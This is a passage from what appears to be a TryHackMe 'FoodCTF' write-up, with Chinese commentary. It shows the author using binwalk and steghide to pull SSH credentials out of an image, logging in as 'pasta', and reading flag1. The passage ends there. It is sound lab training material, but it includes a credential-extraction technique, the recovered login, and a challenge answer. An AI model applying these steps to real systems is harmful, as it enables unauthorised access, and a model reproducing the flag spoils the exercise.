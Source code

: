 ┌──(root💀kali)-[~/tryhackme/FoodCTF]
└─# binwalk 10.10.2.134.jpeg                     

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01
381172        0x5D0F4         gzip compressed data, from Unix, last modified: 2020-03-19 23:53:20

                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/tryhackme/FoodCTF]
└─# steghide extract -sf 10.10.2.134.jpeg 
Enter passphrase: 
wrote extracted data to "creds.txt".
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/tryhackme/FoodCTF]
└─# cat creds.txt           
pasta:pastaisdynamic
```


尝试用creds.txt上面的凭证登录ssh，拿到一个shell

```
┌──(root💀kali)-[~/tryhackme/FoodCTF]
└─# ssh pasta@10.10.2.134                
pasta@10.10.2.134's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Nov  9 09:07:59 UTC 2021

  System load:  0.01              Processes:           91
  Usage of /:   43.9% of 9.78GB   Users logged in:     0
  Memory usage: 35%               IP address for eth0: 10.10.2.134
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Sat Mar 21 00:19:06 2020
pasta@foodctf:~$ id
uid=1002(pasta) gid=1002(pasta) groups=1002(pasta)
```
# flag1
在```/home/bread```下拿到flag1

```
pasta@foodctf:/home/bread$ cat flag 
thm{7baf5aa8491a4b7b1c2d231a24aec575}
pasta@foodctf:/home/bread$ pwd
/home/bread
